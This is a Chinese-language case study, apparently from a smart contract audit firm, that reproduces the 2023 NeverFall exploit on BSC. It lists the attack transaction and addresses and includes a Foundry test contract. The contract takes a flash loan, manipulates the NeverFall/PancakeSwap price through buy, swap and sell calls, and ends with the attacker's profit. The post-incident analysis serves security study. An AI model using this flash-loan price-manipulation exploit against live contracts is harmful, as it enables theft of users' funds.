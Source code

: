 >**了解智能合约审计和最佳实践请**[点击查看文档](https://safful.com/) 

# 智能合约漏洞案例，NeverFall 漏洞复现

# 1. 漏洞简介

[https://twitter.com/BeosinAlert/status/1653619782317662211](https://twitter.com/BeosinAlert/status/1653619782317662211)
![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318180420-f22b7004-e8f8-43db-a9cd-90b5691b50c6.png#averageHue=%23fefefe&clientId=u2c5089f7-09b4-4&from=paste&id=u2425c33b&originHeight=590&originWidth=807&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=u432cb69d-5bf6-480e-88c3-78043641765&title=)

# 2. 相关地址或交易

[https://explorer.phalcon.xyz/tx/bsc/0xccf513fa8a8ed762487a0dcfa54aa65c74285de1bc517bd68dbafa2813e4b7cb](https://explorer.phalcon.xyz/tx/bsc/0xccf513fa8a8ed762487a0dcfa54aa65c74285de1bc517bd68dbafa2813e4b7cb) 攻击交易
攻击账号：0x53b757db8b9f3375d71eafe53e411a16acde75ee
攻击合约：0x35353ec557b9e23137ae27e9d4cc829d4dace16b
受害合约：0x5abde8b434133c98c36f4b21476791d95d888bf5

# 3. 获利分析

![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318180424-f71b4bba-d8d3-485e-b49d-b05af27f4b5f.png#averageHue=%23fefefe&clientId=u2c5089f7-09b4-4&from=paste&id=u22a50f82&originHeight=628&originWidth=1738&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=u18e509b1-4c6d-4b17-91ea-5d7efd0a7ba&title=)

# 5. 漏洞复现

漏洞复现代码：

```
// SPDX-License-Identifier: LGPL-3.0-only
pragma solidity ^0.8.10;

//import  "../interfaces/interface.sol";
import "forge-std/Test.sol";
import "./interface.sol";
import "../contracts/ERC20.sol";

interface NeverFall {
    function buy(uint256 amountU) external returns(uint256);
    function sell(uint256 amount) external returns(uint256);

}

contract ContractTest is Test{

    address constant flashloan = 0x7EFaEf62fDdCCa950418312c6C91Aef321375A00;
    address constant bscusd = 0x55d398326f99059fF775485246999027B3197955;
    address constant neverfall = 0x5ABDe8B434133C98c36F4B21476791D95D888bF5;
    address  payable PancakeSwapRouterv2 = payable(0x10ED43C718714eb63d5aA57B78B54704E256024E);
    address  PancakeSwapV2  =  0x97a08A9Fb303b4f6F26C5B3C3002EBd0E6417d2c;


    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("bsc", 27863178 -2);
        //uint256 forkId = cheats.createFork("bsc");
        //cheats.selectFork(forkId);
        cheats.label(address(flashloan), "flashloan");
        cheats.label(address(bscusd), "bscusd");
        cheats.label(address(neverfall), "NeverFall");
    }

    function testExploit() external {
        IPancakePair(flashloan).swap(1600000 * 1e18,0,address(this),new bytes(1));

    }

    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external {
        uint256 loanNum = IERC20(bscusd).balanceOf(address(this));
        console.log(" loanNum is : %s ", loanNum);

        IERC20(bscusd).approve(neverfall,type(uint256).max);
        IERC20(bscusd).approve(PancakeSwapRouterv2,type(uint256).max);
        uint256 buyNum = NeverFall(neverfall).buy(200000* 1e18);
        console.log(" buyNum is : %s ", buyNum);

        address [] memory path = new address[](2);
        path[0] =  bscusd;
        path[1] = neverfall;
        IPancakeRouter(PancakeSwapRouterv2).swapExactTokensForTokensSupportingFeeOnTransferTokens(1400000* 1e18,1,path,0x051d6a5f987e4fc53B458eC4f88A104356E6995a,88888899999);

        emit log_named_decimal_uint("pair USDT balance after swap",IERC20(bscusd).balanceOf(PancakeSwapV2),18);
        emit log_named_decimal_uint("pair neverfall balance after swap",IERC20(neverfall).balanceOf(PancakeSwapV2),18);

        uint256 sellNum = NeverFall(neverfall).sell(75500000 * 1e18);
        console.log(" sellNum is : %s ", sellNum);

        IERC20(bscusd).transfer(flashloan,1600000 * 1e18 * 1.003);
        emit log_named_decimal_uint("Attacker USDT balance after exploit",IERC20(bscusd).balanceOf(address(this)),18);
        emit log_named_decimal_uint("Attacker neverfallToken balance after exploit", IERC20(neverfall).balanceOf(address(this)),18);

        /*
        uint256 earnNum = IERC20(bscusd).balanceOf(address(this));
        console.log(" earnNum is : %s ", earnNum);
        uint256 neverfallNum = IERC20(neverfall).balanceOf(address(this));
        console.log(" neverfallNum is : %s ", neverfallNum);
        */
    }
}
```
